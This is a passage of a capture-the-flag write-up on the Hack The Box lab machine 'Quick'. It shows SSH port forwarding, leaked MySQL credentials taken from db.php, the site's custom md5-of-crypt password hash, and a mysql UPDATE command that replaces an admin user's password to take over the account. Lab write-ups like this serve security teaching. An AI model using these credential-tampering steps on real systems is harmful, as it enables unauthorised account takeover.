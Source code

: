I'd previously use SSH to forward my local port `9080/tcp` to port `80/tcp` on the loopback interface like so.

```
# ssh -L 9080:127.0.0.1:80 -i sam  sam@10.10.10.186
```

### Quick | POS Print Server

This is what the site (`http://printerv2.quick.htb`) looks like.

{% include image.html image_alt="774b2357.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/774b2357.png" %}

We can take a peek at the database to see what are the valid credentials for this site but first we need the database credentials.

<div class="filename"><span>/var/www/printer/db.php</span></div>

```
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
```

{% include image.html image_alt="7d87722b.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/7d87722b.png" %}

Awesome. We can inject any password of our choice into the database.

#### Home-brewed password hash

If you open up `/var/www/printer/index.php`, you'll see the password hash format.

```
$email=$_POST["email"];
$password = $_POST["password"];
$password = md5(crypt($password,'fa'));
$stmt=$conn->prepare("select email,password from users where email=? and password=?");
$stmt->bind_param("ss",$email,$password);
$stmt->execute();
$result = $stmt->get_result();
$num_rows = $result->num_rows;
if($num_rows > 0 && $email === "srvadm@quick.htb")
```

Let's use the password `password`.

```
$ perl -e "print crypt('password', 'fa')" | md5sum | tr -d ' -'
0c0ba48811bed85e3093bc71c6037891
```

Update the table `users` like so.

```
$ mysql -udb_adm -pdb_p4ss -Dquick -e "UPDATE users SET password = '0c0ba48811bed85e3093bc71c6037891' WHERE email = 'srvadm@quick.htb';"
```


[1]: https://www.hackthebox.eu/home/machines/profile/244
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/